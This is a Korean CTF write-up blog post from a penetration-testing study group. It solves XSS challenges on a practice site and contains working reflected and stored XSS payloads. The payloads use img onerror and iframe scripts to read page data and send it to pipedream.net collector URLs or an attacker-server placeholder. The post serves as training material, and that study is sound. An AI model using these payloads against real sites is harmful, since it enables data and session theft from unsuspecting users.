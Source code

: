 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이: XSS - iframe"
excerpt: "모의해킹 취업반 스터디 7기 11주차"

date: 2024-12-30
last_modified_at: 

tags: [TIL, WEB]
---
```


# Basic Script Prac
## mypage -> reflected xss
<img src=. onerror="
let e = document.querySelectorAll('input')[1].placeholder;
let i = new Image();
i.src = 'https://eot2jevtyijbm2l.m.pipedream.net/?cookie=' + e;
">

# CTF - Steal Info
## notice_list.php
1. 저장되고 출력되는 위치 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-1.gif?raw=true">

1. 특수문자 <'"> 사용 가능한 지 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-2.gif?raw=true">

1. `<script>alert(1)</script>`로 XSS 공격이 가능한 지 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-3.gif?raw=true">

1. mypage 접속해 data 탈취
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-4.gif?raw=true">

```html
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac/secret.php" id="targetIframe">
</iframe>
<script>
    let f = document.querySelector('iframe').contentWindow;
    f.addEventListener('load', () => {
        var e = f.document.getElementsByClassName('card-text')[1].textContent;
        console.log(f);
        let i = new Image();
        i.src = "[공격자 서버]/?cookie=" + e;
    })
</script>
```

# Steal Info 2
## notice_list
1. 저장되고 출력되는 위치 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-5.gif?raw=true">

1. 특수문자 <'"> 사용 가능한 지 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-6.gif?raw=true">

1. `<script>alert(1)</script>`로 Stored XSS 공격이 가능한 지 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-7.gif?raw=true">

1. mypage 접속해 data 탈취

```html
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac2/mypage.php" id="targetIframe">
</iframe>
<script>
    let f = document.querySelector('iframe').contentWindow;
    f.addEventListener('load', () => {
        let e = f.document.querySelectorAll('input')[1].placeholder;
        console.log(f);
        let i = new Image();
        i.src = "https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie=" + e;
    })
</script>
```
